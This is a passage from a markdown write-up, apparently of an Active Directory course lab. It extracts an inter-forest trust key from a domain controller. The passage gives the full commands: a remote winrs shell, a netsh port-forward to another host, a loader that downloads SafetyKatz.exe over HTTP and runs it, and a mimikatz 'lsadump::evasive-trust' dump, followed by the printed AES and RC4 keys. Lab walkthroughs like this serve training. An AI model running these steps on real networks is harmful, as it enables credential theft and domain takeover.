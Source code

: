 `winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀

![dcorp-dc | svcadmin](https://custom-icon-badges.demolab.com/badge/dcorp--dc-svcadmin-64b5f6?logo=windows11&logoColor=white)

`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`

![HFS - SafetyKatz.exe](./assets/screenshots/learning_objective_20_hfs_safetykatz.png)

- **Extract from the Forest 1 DC the Trust Key for the Forest 2**

**We require the trust key for the inter-forest trust from the DC that has the external trust.**

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-trust /patch📌

Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-719815819-3726368948-3917688648)

[SNIP]

Domain: EUROCORP.LOCAL🏛️ (ecorp / S-1-5-21-3333069040-3914854601-3606488808)
 [  In ]📌 DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL🏛️
    * 2/16/2025 9:16:51 PM - CLEAR   - 14 fd 45 3b db 06 1d cf 60 b1 6c 8f 7f 73 48 65 00 f9 64 2b 24 fe a5 8e 87 64 37 77
        * aes256_hmac       58d399736f8be2c9efa51372ffd06ba9e5c36afd97a9161ea4bafc5d0f1dce8b
        * aes128_hmac       80d9ea04b9e7031892cc39335a390883
        * rc4_hmac_nt       8b47def37766600c86a9ce817a3fadf4🔑

[SNIP]
```
